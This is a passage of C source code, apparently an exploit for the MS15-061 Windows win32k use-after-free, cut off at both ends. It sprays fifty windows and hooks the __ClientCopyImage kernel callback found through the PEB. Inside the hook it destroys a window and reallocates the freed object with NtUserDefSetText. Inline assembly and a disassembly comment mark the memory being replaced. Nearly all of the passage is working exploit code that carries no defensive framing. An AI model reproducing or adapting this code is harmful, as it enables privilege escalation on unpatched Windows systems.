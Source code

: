     }

    for (int i = 0; i < 50; i++)
    {
        Secondhwnd[i] = CreateWindowEx(
            WS_EX_CLIENTEDGE,
            g_szClassName,
            L"The title of my window",
            WS_OVERLAPPEDWINDOW,
            CW_USEDEFAULT, CW_USEDEFAULT, 240, 120,
            NULL, NULL, NULL, NULL);

        if (Secondhwnd[i] == NULL)
        {

            return;
        }
    }
}

const WCHAR g_szClassName[] = L"MS15-061";
HWND hwnd;
HINSTANCE hInstance2;
typedef NTSTATUS(NTAPI *pUser32_ClientCopyImage)(PVOID p);
pUser32_ClientCopyImage g_originalCCI;
void *__ClientCopyImageAddress;

NTSTATUS NTAPI hookCCI(PVOID p)
{

    LARGE_UNICODE_STRING plstr;
    // free  WND object
    DestroyWindow(hwnd);
    UnregisterClassW(g_szClassName, NULL);

    /*
    .text:BF89EA6D                 push    edx
    .text:BF89EA6E                 call    _xxxClientCopyImage@20 ; xxxClientCopyImage(x,x,x,x,x)
    .text:BF89EA73                 lea     esi, [edi+58h]  ------->>>> replace edi memeory with NtUserDefSetText
    .text:BF89EA76                 mov     edx, eax
    .text:BF89EA78                 mov     ecx, esi
    .text:BF89EA7A                 call    @HMAssignmentLock@8 ; HMAssignmentLock(x,x)

    */

    DebugBreak();
    RtlInitLargeUnicodeString(&plstr, (WCHAR *)originalCLS, (UINT)-1);
    NtUserDefSetText(Secondhwnd[SecondWindowIndex], &plstr);
    SecondWindowIndex += 1;
    return g_originalCCI(p);
}

void *Get__ClientCopyImageAddressInPEB()
{
    void *address = NULL;
    __asm
    {
	mov edx , 0xD8; // 0x36 *4 ->  API index *4  number  for  __ClientCopyImage
	mov     eax,dword ptr fs:[00000018h] // eax=TEB
        mov     eax,dword ptr [eax+30h] // EAX=PEB
        mov     eax,dword ptr [eax+2Ch] // EAX=KernelCallbackTable
	add	  eax,edx
	mov	  address,eax;
		//  int 3

    }

    return address;